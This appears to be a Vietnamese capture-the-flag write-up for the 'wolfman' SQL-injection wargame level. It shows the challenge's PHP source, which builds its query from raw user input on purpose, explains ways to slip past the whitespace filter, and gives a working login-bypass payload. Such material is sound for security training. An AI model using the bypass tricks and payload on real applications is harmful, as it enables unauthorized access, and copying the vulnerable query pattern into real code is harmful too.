wolfman
===
### Description
- Source:
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

### Solution
- Phân tích code: Chúng ta có một tham số để input vào đó là `pw` nếu có khoảng trắng trong đầu vào thì sẽ thoát và in ra `No whitespace ~_~`.
- Chúng ta có thể bypass khoảng trắng bằng nhiều cách. Sử dụng `/**/, %0a, %09, %0d, (), +`.
- Ở đây mình sử dụng `%09`

#### Payload
- `?pw=1'%09or%09id='admin'--%09-`